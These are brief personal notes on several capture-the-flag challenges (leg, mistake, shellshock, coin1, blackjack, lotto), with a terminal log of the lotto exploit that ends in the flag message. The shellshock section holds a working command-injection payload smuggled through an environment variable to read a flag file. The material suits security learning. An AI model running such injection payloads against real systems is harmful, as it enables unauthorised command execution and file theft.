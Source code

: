 ### leg
the addresses of the code are in the .asm file, so it is possible to get an estimate of 
the range of address, then I brute force about 40 addresses with a loop.
### mistake
This thing to note is that the '<' operator precede the '=' operator
### shellshock
some googling about how shellshock works:
`env x='() { :;}; /bin/cat flag' ./shellshock`
### coin1 
This require writing script, I skiped that
### blackjack
The code has a bug found by the compiler that there is an extra %c in one of the printfs
but this is not the bug to explot, but that the bed amount is not constrained to be positive.
### lotto
The thing to note is that the code that check the input is doing two loops for some reason.
All needed is to put 6 equal signs and try until one of the six randoms is that sign.
Also need to note that the sign must have value <= 45, like one of: !#$ ..
Also, it can't be automated because scanf is buffering.
see https://stackoverflow.com/questions/26697627/how-to-pipe-data-to-a-program-which-calls-scanf-and-read-in-linux
```
lotto@ubuntu:~$ ./lotto 
- Select Menu -
1. Play Lotto
2. Help
3. Exit
1
Submit your 6 lotto bytes : 123456
Lotto Start!
bad luck...
- Select Menu -
1. Play Lotto
2. Help
3. Exit
^C
lotto@ubuntu:~$ ./lotto 
- Select Menu -
1. Play Lotto
2. Help
3. Exit
1
Submit your 6 lotto bytes : !!!!!!
Lotto Start!
bad luck...
- Select Menu -
1. Play Lotto
2. Help
3. Exit
1
Submit your 6 lotto bytes : !!!!!!
Lotto Start!
bad luck...
- Select Menu -
1. Play Lotto
2. Help
3. Exit
1
Submit your 6 lotto bytes : !!!!!!
Lotto Start!
bad luck...
- Select Menu -
1. Play Lotto
2. Help
3. Exit
1
Submit your 6 lotto bytes : !!!!!!
Lotto Start!
bad luck...
- Select Menu -
1. Play Lotto
2. Help
3. Exit
1
Submit your 6 lotto bytes : !!!!!!
Lotto Start!
bad luck...
- Select Menu -
1. Play Lotto
2. Help
3. Exit
1
Submit your 6 lotto bytes : !!!!!!
Lotto Start!
bad luck...
- Select Menu -
1. Play Lotto
2. Help
3. Exit
1
Submit your 6 lotto bytes : !!!!!!
Lotto Start!
bad luck...
- Select Menu -
1. Play Lotto
2. Help
3. Exit
1
Submit your 6 lotto bytes : !!!!!!
Lotto Start!
bad luck...
- Select Menu -
1. Play Lotto
2. Help
3. Exit
1
Submit your 6 lotto bytes : !!!!!!
Lotto Start!
sorry mom... I FORGOT to check duplicate numbers... :(
- Select Menu -
1. Play Lotto
2. Help
3. Exit
```

